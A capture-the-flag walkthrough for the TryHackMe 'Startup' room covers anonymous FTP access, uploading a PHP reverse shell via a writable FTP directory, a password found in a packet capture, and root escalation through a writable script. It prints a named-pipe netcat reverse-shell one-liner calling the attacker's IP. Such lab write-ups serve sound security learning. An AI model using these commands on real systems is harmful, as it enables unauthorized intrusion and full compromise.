

**Challenge description:** This challenge assesses your proficiency in enumerating File Transfer Protocol (FTP) services, detecting misconfigurations related to FTP, employing basic web enumeration techniques, exploiting FTP file upload misconfiguration, analyzing network packet captures using tools such as Wireshark, and implementing privilege escalation techniques.

**Challenge category:** Networking - Network Forensics - Web Exploitation - Privilege Escalation.

**Challenge link:** [Startup](https://tryhackme.com/r/room/startup)

<br>

# Reconnaissance & Information Gathering

## Nmap Scan

The first step for us here is to enumerate the running services on the target system before doing anything.

So to find the services exposed we need to enumerate the provided `Target_IP` using **Nmap**.


From the above output, we can find that ports **21**, **22**, and **80** are open. These are the well-known ports for FTP, SSH, and HTTP services respectively.

<br>

## Enumerating the FTP Service

From the **Nmap** scan results, we figured out that the **FTP** service allows anonymous login. So let's connect to the FTP server to enumerate it.


Well! So as you can see from the above snapshot, we accessed the FTP server as `anonymous` without any password. After that, we listed the current FTP directory, and then we found some files, so we downloaded them to our local machine to read them.

### .test.log file


### important.jpg file


### notice.txt file


<br>

## Enumerating the Web Server

From the Nmap scan result we can see that the target system is running a web server on port **80**, so let's open our browser and take a look at the web app.


From the above snapshot, we can see that the website is still under development. Anyway, we may find hidden directories that contain important or useful information. So let's enumerate hidden directories!

<br>

## Directory Enumeration using Gobuster 

To enumerate sub-directories and files you can use tools like **dirbuster**, **dirb**, **gobuster**, or even **burpsuite** but for now, we will use **gobuster**.


<br>

### "Files" Directory List


By navigating to the `/files` sub-directory found by **gobuster**, you notice that it contains the same files we found on the FTP server, interesting!

<br>

# Exploiting FTP File Upload Misconfiguration

Well! Now we have a web server under development but it has a directory that lists the same content as the FTP server!

So what about trying to upload a reverse shell script to the FTP server, then execute it on the web server and gain initial access to the target system? 

Let's try to do so!

### Modify the Reverse Shell Script

So to get a reverse shell on the system, we are gonna use the well-known `php-reverse-shell` payload by **Pentest Monkey**. To use it, you can find it in your Kali Linux machine under the `/usr/share/webshells/php` directory named `php-reverse-shell.php` or you can download it from the following link: https://pentestmonkey.net/tools/web-shells/php-reverse-shell

Well! Now, before uploading the reverse shell to the FTP server, you need to open the source code file with your favorite text editor and change the found IP address with your TryHackMe IP address to be able to get the reverse shell in the following steps.


### PUT the Script on the FTP Server


From the above snapshot, you can see that when we tried to PUT the reverse shell script on the FTP root directory it gave the `553 Could not create file.` error, but after changing the working directory to the `ftp` directory, we were able to successfully PUT the script.


Let's navigate to the web server to make sure that the reverse shell script is accessible from it.


Alright! We have successfully PUT our reverse shell on the remote target system and now it's time to get our initial access!

### Setup Netcat Listener

To catch our reverse shell we have to start listening on the specified port at the `php-reverse-shell.php` file. Use the following command to set **Netcat** listener:

```console
$ nc -nlp <specified_port>
```

### Fireup our reverse shell


Finally! We have got our shell on the target system.

### Stabilize the Netcat shell using Python

As **netcat** shells are very unstable it's important to stabilize it using Python right after getting your initial access. Suppose that Python or Python3 is installed on the target system. 

**The steps are as follows:**

1. Run `python -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/bash")'` This spawns a more feature-rich Bash shell.
2. Run `export TERM=xterm-256color` to set the Xterm terminal emulator.
3. Press `Ctrl + Z` to 'background' the netcat shell.
4. Run `stty raw -echo; fg` this does three things: `raw` changes how your keyboard input is processed, allowing `Ctrl + C`, cursor key movements, `TAB`, autocomplete, etc. to be passed through to the netcat shell; and `-echo` disables the echo in your terminal as you type, making the **Netcat** shell behave more like a normal terminal. `fg` return the netcat shell to the 'foreground'.

<br>

# Task 1: What is the secret spicy soup recipe?

After getting our initial access to the target machine, we listed the root `/` directory, and we found a file named `recipe.txt`.


By reading it we figured out the secret spicy soup recipe, it's `love`.

<br>

# User 'lennie' Privilege Escalation

To retrieve the user.txt flag, we have to escalate our privileges to the user `lennie`.

So to escalate our privileges we found a directory named `incidents` in the root `/` directory and inside it there's a network packet captures file named `suspicious.pcapng`


After downloading the `suspicious.pcapng`, we opened it using the **Wireshark** tool and by following the packets' TCP Streams, we were able to retrieve the password of the user `lennie`


So by using the found password, we changed to the user `lennie` using the following command: 

```console
$ su lennie
```



<br>

# Task 2: What are the contents of user.txt?

To retrieve the user flag, we navigated to the user's `lennie` home directory `/home/lennie`


<br>

# Root Privilege Escalation

To get the root flag, we need to escalate our privileges on the system.

So in the same directory, you can see a directory named `scripts`, by navigating to it, you can see a bash script named `planner.sh` owned by the `root` user and we can read its content.


From the above snapshot, you can notice that the `planner.sh` script is executing another script called `print.sh` and this script is owned by the user `lennie`, great! It means that by modifying the content of the `print.sh` script, we may get a root shell!

We modified the `/etc/print.sh` script using the following command:

```console
$ rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <use_your_THM_IP> 4444 >/tmp/f
```

Then we setup a **Netcat** listener using the following command:

```console
$ nc -nlp 4444
```

We waited a few seconds, then we are now **ROOT**


<br>

# Task 3: What are the contents of root.txt? 

To read the root flag, we just traversed to the `/root` directory and then read the root.txt, that's it!


<br>

# Conclusion

In conclusion, I hope this walkthrough has been informative and shed light on our thought processes, strategies, and the techniques used to tackle each task. CTFs are not just about competition; they're about learning, challenging yourself and your knowledge, and getting hands-on experience through applying your theoretical knowledge.